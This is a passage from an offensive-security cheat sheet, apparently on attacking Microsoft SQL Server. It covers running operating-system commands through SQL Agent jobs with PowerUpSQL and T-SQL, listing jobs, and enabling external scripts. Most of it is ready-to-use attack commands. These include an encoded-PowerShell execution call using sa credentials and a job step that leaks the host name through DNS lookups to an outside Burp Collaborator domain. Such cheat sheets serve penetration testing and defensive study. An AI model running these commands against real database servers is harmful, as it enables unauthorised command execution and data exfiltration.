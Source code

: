 
## Agent Jobs

* The execution takes place with privileges of the **SQL Server Agent service account** if a proxy account is not configured.
* :warning: Require **sysadmin** or **SQLAgentUserRole**, **SQLAgentReaderRole**, and **SQLAgentOperatorRole** roles to create a job.

### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

```sql
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1'; 
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'$name=$env:COMPUTERNAME[10];nslookup "$name.redacted.burpcollaborator.net"', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';

-- delete
EXEC dbo.sp_delete_job @job_name = N'test_powershell_job1';
```

### List All Jobs

```ps1
SELECT job_id, [name] FROM msdb.dbo.sysjobs;
SELECT job.job_id, notify_level_email, name, enabled, description, step_name, command, server, database_name FROM msdb.dbo.sysjobs job INNER JOIN msdb.dbo.sysjobsteps steps ON job.job_id = steps.job_id
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## External Scripts

:warning: You need to enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

## Python:
